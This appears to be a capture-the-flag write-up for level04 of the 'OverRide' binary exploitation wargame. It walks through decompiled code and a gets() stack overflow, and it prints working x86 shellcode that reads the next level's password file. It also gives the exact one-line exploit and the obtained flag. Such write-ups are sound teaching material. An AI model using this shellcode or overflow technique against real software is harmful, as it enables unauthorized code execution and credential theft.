 In this level, the binary ask for a Shellcode, and wait for an input in STDIN.

	level04@OverRide:~$ ./level04 
	Give me some shellcode, k
	124
	child is exiting...

We have an hint there **child is exiting** let's check the code with Ghidra.

```c
undefined4 main(void)

{
  int iVar1;
  ...
  local_14 = fork(); // Okay so there is a child created there.
  ...
  if (local_14 == 0) {
    prctl(1,1);
    ptrace(PTRACE_TRACEME,0,0,0);
    puts("Give me some shellcode, k");
    gets(local_a0); // This function is breakable !
  }
  else {
    do {
	  ...
      if (((local_a4 & 0x7f) == 0) ||
         (local_1c = local_a4, '\0' < (char)(((byte)local_a4 & 0x7f) + 1) >> 1)) {
        puts("child is exiting...");
        return 0;
      }
      local_18 = ptrace(PTRACE_PEEKUSER,local_14,0x2c,0);
    } while (local_18 != 0xb);
    puts("no exec() for you"); // Didn't saw that in the prompt, it's weird.
    kill(local_14,9);
  }
  return 0;
}
```

There is a lot of garbage here but we found some intersting line !\
After some research we found **set follow-fork-mode child** that will help us see actually what happend in child.

+ gets(local_a0);
This line can be overflowed since it doesn't limit the size of the input with the one of the buffer. With that we can overwrite the return value.

Let's check in gdb the size needed for our payload.

	(gdb) set follow-fork-mode child
	(gdb) run
	Starting program: /home/users/level04/level04 
	[New process 1880]
	Give me some shellcode, k
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABB

	Program received signal SIGSEGV, Segmentation fault.
	[Switching to process 1880]
	0x42424141 in ?? ()

After 156 char we can rewrite with whatever we want.\
Since there is no function using system or anything like that we must write our shellcode.

+ puts("no exec() for you");
Since the line there appear when we use a basic shellcode /bin/sh, we'll have to use a shellcode that directly cat the .pass of the next level.

	level04@OverRide:~$ export SHELLCODE=`python -c 'print "\x90" * 242 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"'`

Now let's find the adress of our shellcode in gdb using **x/20s ((char **)*environ)**.

	(gdb) b main
	Breakpoint 1 at 0x80486cd
	(gdb) run
	Starting program: /home/users/level04/level04 

	Breakpoint 1, 0x080486cd in main ()
	(gdb) x/20s ((char **)*environ)
	0xffffd792:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
	0xffffd85a:	"\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322\353\062[\260\005\061\311̀\211\306\353\006\260\001\061\333̀\211\363\260\003\203\354\001\215\f$\262\001̀1\333\071\303t\346\260\004\263\001\262\001̀\203\304\001\353\337\350\311\377\377\377/home/users/level05/.pass"
	0xffffd8e9:	 "SHELL=/bin/bash"
	0xffffd8f9:	 "TERM=xterm-256color"
	0xffffd90d:	 "SSH_CLIENT=192.168.56.1 42612 4242"
	0xffffd930:	 "SSH_TTY=/dev/pts/0"
	0xffffd943:	 "USER=level04"
	...

As we can see our adress will be 0xffffd85a.

	level04@OverRide:~$ python -c 'print "B" * 156 + "\x5a\xd8\xff\xff"' | ./level04
	Give me some shellcode, k
	3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
	child is exiting...

Let's head to the next level.